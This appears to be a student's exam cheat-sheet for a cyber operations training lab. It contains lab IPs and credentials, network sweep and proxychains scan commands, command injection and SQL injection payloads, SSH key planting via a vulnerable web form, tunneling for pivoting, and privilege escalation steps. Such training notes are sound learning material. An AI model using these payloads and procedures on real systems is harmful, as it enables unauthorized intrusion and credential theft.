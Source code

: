 # SecCCTC
NEW Security CCTC


OP station LINUX 10.50.21.175 

uploads 10.50.22.59/uploads for more info
______________________________
17
JORO-501-W
dSMTntzAUGo3pnS
10.50.23.20
____________________________

http://10.50.20.103:8000/challenges  < -- - challenges 



Needed commands
_______________________________________________________
1- for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
2- proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5   or -iL --openm
3- proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse    < -- finds other webpages

xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboar
___________________________________________

make a SSH KEY 

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rua.pub
ssh www-data@ip  ( or whatever the webuser is)
9- find the userers in the /etc/password then navigate down to find the file with ls -la 
10 - move the map to the host system 

try to insert an your own key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>  or other path
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 


  -______________________________________
  to get to second box student@ip -L 41711:192.168.28.120:4242
  then new tunnle of ssh student@127.0.0.1 -D 9050 




__________________________________________________________________
        Windows Priv esculation: Importatant to know
===First THING TO DO IS SHOW HIDDEN FILES!====
	File Explorer > File > Hidden files
 	Always use ls -la

Next: Search: ==Task Scheduler===
	search bar > Task Scheduler  > new tasks are listed at top > Look in TS Library ..ignore one_drive stuff > Look at TRIGGERS Tab > Actions tab >  
 		 OR  schtasks /query /fo LIST /v  > powershell  >schtasks /query /fo LIST /v  | Select-String  -Pattern "Task To Run" | find /i /v "com handler"  > Start at the top look for putty.exe
    
    Next: == Check Processes==
    	tasklist /v > note the PID (2222 or whatever) > query session > look at what your number session is > go back and view the tasklist /v | what you found > wmic process get name, processid, parentproessid, sessionid > scroll up to find the process you noted write down the parant process > wmic process ,where (processid=2222) list full > Do the same with the parent process you wrote > tasklist /svc | findsr /i "parent process you found"





xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard



___________________________________________________________________




FOR TEST
When given an IP
1 - <nmap -Pn -sT 10.0.0.X -p- -T5 >any ip that is given (Pivot box) 
2 – any port 80s or http ports run : proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse  to find extra webpages
3- Try all /webstuff	
	    /more webstuff
		/lostawebstuff
  ____________________________________________________________________________________________________________________________
  ONCE ON A WEBPAGE
4- The  Box that has inputs : hit go button. Then past in the Possible_end.txt in one box / To_war in another grab info for flag,
5- On the same box, command inject one of them try: ; ls -la || ; /whoami  || ; pwd  || ; cat /etc/passwd || ; cat /etc/hosts
6- grab all users from the cated etc/passwd and save them someplace (www-var ect) 
7 – try to insert an your own PUB_key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 
8- from your Lin_ops box you should be able to <ssh user@ip> without a password
***********Note: I would suggest making a new key: <ssh-keygen -t rsa> ************
__________________________________________________________________________________________________________________________

IF YOU FIND THE MAP WITH IP ADDRESS.. Make sure to EOM or scp the map to view
9- look at the map that you found for IP address.  Located at the bottom of the mad (Hint: there is also a flag)
__________________________________________________________________________________________________________________________

Tunnleing creationg and scanning for the new IPs
10 – Create a Dynamic tunnel so you can scan those IP’s (optional) IF not go to step 11. (ssh www-data@ip -D 9050)
11 – run <for i in {96..127}; do (ping -c 1 10.0.0.$i | grep "bytes from" &); done> in pivot box you got into for each IP address. (www-data box)
12 – run proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5 on each of the new IP’s you found. Notate any ports then run step 2 to see if there is any info for any webpages found 
13 – navigate to the new wepage and repeat step 3 
14 – Look at <page  sources> for any links as well
15 – if you come across a box that looks like it is a table: Try eploiting the URL Bar:
	A-	First try <coolwebsite.com.php? selection=1 Or 1=1> or 2 or 3 ect until tables ALL drop
	B-	Any columns displayed, put them in order <selection=<# your found> UNION SELECT 1,2,3 ect>
	C-	Use the GOLDEN STATEMENT < SELECT table_schema,table_name,column_name, 4 FROM information_schema.columns;>
 __________________________________________________________________________________________________________________________

 
PART 2
1 – In your Lin-OPS TRY EVERY COMBINATION AND PASSEORD that is given!! You should get 
A-	Linux box
B-	Windows box
_______________________________________________________________________________________


WINDOWS BOX: 
1-	to access the Windows box first run a scan on the IP address that is given <step 11>
2-	run an NMAP on each new IP you found <step 1>
3-	find the box the you logged into as a windows user, look for the port that can run RDP (3889)
4-	RDP into that box 
____________________________________________________________________________________________________
a.	Set up your L tunnel <ssh www-data@jumpIP -L 1111:WinBoxIP:3389>
b.	xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard
5-	Look around for files in USERS. Go to < C drive >> Users > Look for a sus folder
6-	For Persistence  check the regedit < search bar – regedit – follow the HKEY path  -- look at all the paths there and make sure to copy the ENTIRE path of the sus one. The file path is the last </name.here>
7-	For Called Program, follow the path:  <C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -executionpolicy bypass -windowstyle hidden -NoExit -file "C:\Program Files\scripts\kpersky_start.ps1">
8-	To get into admin home: You need to grab the file that they will give us and transfer it from your HOST to your WINDOWS: (Log into your account and download it)
	a.	On the windows box, open a webpage, navigate to the test website, download file. DONE use the account name and pass they give ya
____________________________________________________________________________________________________

Linux Explotaition
192.168.28.10 Kmichae pass MrMeeseeks 
1- sudo -l  < -- if this works goto GTFO webpage and search for the exploit! Copy past exploit then type <bash> for a esculated shell.
2 –<Bash> then ls -la 
3 you will see exploit.this
4- ./exploitthis AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
____________________________________________________________________________________________________

For inside root dir, 
1-	Log in as the user, 
2-	Sudo -l 
3-	Look for set UID and GUID
4-	Use the  find / -perm command <command here>
5-	A list of binaries will show
6-	On linops, run the same exact command and compare both of them Find the one that is not on one of the systems
7-	Then go to GTFO and look up that one and reserc the exploit
8-	 Make sure you do the intire path -p 
5 – Next follow buffer overflow steps.
For what program can give you higher priv, mak sure you find the buffer overflow  file in one of the questions

1-	To see what is inside the root dierectory
2-	2 find what Binary used 
POST exploitation
	1 – To view running process <ps -elf > look for one that ryscslogd
3-	Cat /ect/rcyslog.conf  for flag in comments
4-	To find the password use the find command find / iname “password” -file the cat the full path to file 
